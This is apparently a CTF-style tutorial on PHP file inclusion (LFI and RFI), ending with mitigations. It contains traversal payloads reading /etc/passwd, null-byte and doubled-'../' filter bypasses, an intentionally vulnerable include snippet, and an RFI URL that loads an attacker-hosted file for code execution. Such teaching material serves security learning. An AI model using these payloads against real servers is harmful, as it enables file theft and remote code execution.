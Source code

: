 ```yaml
---
title: File Inclusion
author: Throupy
date: 2024-06-08 00:00:00 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


Also known as directory traversal, file inclusion is a vulnerability which allows an attacker to read operating system resources, such as local files on the server. This vulnerability is exploited by manipulating and abusing the web application’s URL to locate and access files stored outside of the application’s root directory.

File inclusion occurs when un-sanitised user input is passed to a function such as PHP’s `file_get_contents`. However the function is not the only facilitator of the issue. Often poor input validation / filtering is the cause of the vulnerability.

[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

Using `../../../etc/passwd` is a common way of testing for file inclusion, for example:

1. There is a URL `https://site.com/get.php?file=<FILE_NAME>`
2. The site expects a file parameter like “file.txt” or something inconspicuous.
3. The attacker can leverage this and make the application go up to the root directory by using `../`, and then get whatever file they want from the server.

## Local File Inclusion - PHP
[Good Wordlist here](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
Once again picking on PHP, there are functions such as `include`, `include_once`, `require` and `require_once` which include files from the local filesystem. For example:
```php
<?PHP
	include($_GET["lang"]);
?>
```
This would get the “lang” parameter from the URL. Assume this parameter would be `english.php` for the English site, or `spanish.php` for the Spanish site. As previously discussed, an attacked could use a payload of `../../../etc/passwd` to include that file, and therefore retrieve the contents. This works because in the above code snippet, no directory is passed to the include function, and there is no validation of the user’s parameter input.

In the above examples, we have the source code to look at, but in a black box test, it’s important to know the signs of a possible file inclusion vulnerability. A sign in a PHP application would be:
```php
Warning: include(languages/LOL.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The message discloses important information - we can tell that the application appends `.php` onto the parameter (`LOL.php`), and looks for the file inside the `languages` directory. We can also see that the application directory is `/var/www/html/THM-4/`

So to read `/etc/passwd`, we could try the parameter as `../../../../etc/passwd` (note: 4 x `../` because 4 levels to application directory). However this wouldn’t work, as the application appends the `.php` onto the end, and the file `/etc/passwd.php` doesn’t exist. To get around this, we can use null bytes (0x00 / %00), which basically tells the application to disregard any following text.

The payload would look like: `../../../../../etc/passwd%00`.

NOTE: THE NULL BYTE TRICK IS FIXED IN PHP V5.3.4 AND ABOVE

Be careful of encoding e.g. URL encoding when submitting forms, maybe better to just use the URL or send a request manually.

### Avoiding String Filtering
If the developer adds some string filtering to replace `../` string with an empty string, you can simply double the payload, so it would be:
`....//....//....//....//....//etc/passwd`. This is because the PHP filter only matches the replaces the first subset string `../` it finds and doesn’t do another passwd, as shown below.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

## Remote File Inclusion - PHP
RFI is a technique used to include remote files into a vulnerable application. Similar to LFI, RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into the `include` function. +

A requirement for RFI is that the `allow_url_fopen` option need to be `on`

The risk of RFI is higher than that of LFI, as RFI can allow an attacker gain remote code execution on the server. The RFI process is roughly as follows:

1. Attacker hosts malicious file ([site.com/bad_command.txt](http://site.com/bad_command.txt))
2. Attacker sends a payload including the location of the bad file-
    1. e.g. `http://victim.com/get.php?file=http://site.com/bad_command.txt`
3. The victim server retrieves the malicious file which is being hosted by the attacker
4. `bad_command.txt` is injected into the `include` function and executed.
5. The victim server sends back the result of the execution.

## Mitigation
1. Keep system, services and web app frameworks up to date
2. Turn of PHP errors to avoid leaking the application path
3. Web application firewalls
4. Disable PHP features that cause file inclusion (`allow_url_fopen`, `allow_url_include`)
5. Carefully analyze web application and only allow needed protocols and PHP wrappers
6. Never trust user input - SANITIZE!
7. Implement whitelisting for file names and locations (and also black listing)
